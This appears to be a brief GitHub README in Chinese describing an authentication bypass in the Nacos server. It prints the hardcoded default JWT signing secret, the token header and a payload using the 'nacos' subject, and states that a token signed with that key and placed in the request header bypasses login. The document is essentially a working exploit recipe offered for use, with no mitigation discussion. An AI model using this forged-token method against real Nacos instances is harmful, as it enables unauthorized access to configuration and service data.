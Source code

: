 # Nacos-auth-bypass

Nacos 身份认证绕过

由补丁可知：
nacos.core.auth.plugin.nacos.token.secret.key=SecretKey012345678901234567890123456789012345678901234567890123456789

JWT构成：base64编码的header.base64编码的payload+hmac(f(header,payload,key))
参考https://blog.csdn.net/weixin_45839321/article/details/108935762

由于key硬编码，因此可以根据header+payload构造hmac  通过签名认证
header：
{
  "alg": "HS256"
}

payload：
{
  "sub": "nacos",
  "exp": 1678806359   //这里是时间戳
}

key=SecretKey012345678901234567890123456789012345678901234567890123456789
据此构造json web token 添加到请求头   即可绕过登录认证
![image](https://user-images.githubusercontent.com/55875284/225000315-38fcd9d2-5147-48eb-857b-a6c28fa8aadf.png)

![image](https://user-images.githubusercontent.com/55875284/224986445-1d78e6c9-ae8b-4f3f-9b73-0e1e82babd86.png)
